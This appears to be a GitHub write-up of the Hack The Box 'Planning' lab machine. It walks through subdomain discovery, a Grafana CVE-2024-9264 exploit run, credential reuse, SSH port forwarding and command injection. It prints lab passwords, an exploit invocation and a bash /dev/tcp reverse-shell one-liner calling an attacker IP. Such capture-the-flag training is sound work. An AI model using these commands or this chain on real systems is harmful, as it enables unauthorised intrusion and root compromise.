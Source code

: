 # 🧠 Hack The Box – Planning (Easy)

## 📌 Machine Info
- **Name:** Planning  
- **Difficulty:** Easy  
- **OS:** Linux  
- **IP Address:** 10.10.11.68  
- **Author:** Vishnu S  
- **Completed on:** July 6, 2025

---

## 🔍 Summary

The Planning machine involves:
- Virtual host enumeration  
- Exploiting Grafana (CVE-2024-9264)  
- Docker container escape  
- Privilege escalation via SSH port forwarding and command injection  

---

## 🛠 Tools Used
- `nmap` – Port scanning  
- `ffuf` – Subdomain enumeration  
- `python3` – Exploit execution  
- `netcat` – Reverse shell listener  
- `ssh` – Remote login & port forwarding  
- `linPEAS` – Privilege escalation enumeration  

---

## 🧾 Walkthrough

### 1️⃣ Initial Enumeration

```bash
nmap 10.10.11.68
````

![Nmap Scan](nmap-scan.png)

---

### 2️⃣ Virtual Host Setup

![Planning Web Page](planning.png)

Edited `/etc/hosts`:

```
10.10.11.68 planning.htb
```

---

### 3️⃣ Subdomain Discovery

![FFUF Scan](fuff-scan.png)

```bash
ffuf -u http://planning.htb -H "Host:FUZZ.planning.htb" \
-w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 100
```

Discovered: `grafana.planning.htb`
Updated `/etc/hosts`:
![Updated Hosts](added-host1.png)
![Another Hosts Entry](added-host.png)

---

### 4️⃣ Grafana Exploitation (CVE-2024-9264)

Visited: `http://grafana.planning.htb`
![Grafana Login](grafana-login.png)
![Grafana Version](grafana-version.png)

**Credentials:**

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

Used exploit:
[https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)

Start listener:

```bash
nc -lvnp 9001
```

![Listener](listener.png)

Run exploit:

```bash
python3 poc.py --url http://grafana.planning.htb \
--username admin \
--password 0D5oT70Fq13EvB5r \
--reverse-ip 10.10.14.96 \
--reverse-port 9001
```

![Exploit Run](python-exploit.png)
![Exploited](exploited.png)

✅ Reverse shell obtained.

---

### 5️⃣ Docker Escape

```bash
env
```

Found:

```
Username: enzo
Password: RioTecRANDEntANT!
```

![Found Credentials](found-username-password.png)

SSH into host:

```bash
ssh enzo@10.10.11.68
```

![SSH Login](ssh.png)

```bash
cat /home/enzo/user.txt
```

![User Flag](userflag.png)

---

### 6️⃣ Privilege Escalation

Ran linpeas:

```bash
./linpeas.sh
```

Found crontab:

```bash
cat /opt/crontabs/crontab.db
```

![linPEAS Crontab](linpeas-crontab.png)
![Found Root Credentials](found-credentials.png)

Used:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

Local port 8000 found:
![Local Port](port-locally.png)

SSH Port Forward:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

![Port Forwarding](port-forwarding.png)
Visited: `http://localhost:8000`
![Visited 8000](visited8000.png)

Injected shell:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.96/8888 <&1'
```

![Shell Injected](injected.png)

Started listener:

```bash
nc -lvnp 8888
```

![Listener for Root](setup-listener.png)
![Got Root Shell](gained-rootshell.png)

---

## 🏁 Flags Captured

```bash
cat /home/enzo/user.txt
cat /root/root.txt
```

![User Flag](user-flag.png)
![Root Flag](root-flag.png)

---

## ✅ Conclusion

This machine demonstrated a full attack chain:

* Default credentials in Grafana
* Docker environment variable leaks
* Misconfigured internal services
* Port forwarding + command injection

Great for practicing real-world exploitation chains!

---

## 🔗 References

* [CVE-2024-9264 – Grafana RCE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-9264)
* [Exploit Script](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)
* [HackTricks](https://book.hacktricks.xyz/)
* [Medium Write-up](https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7)

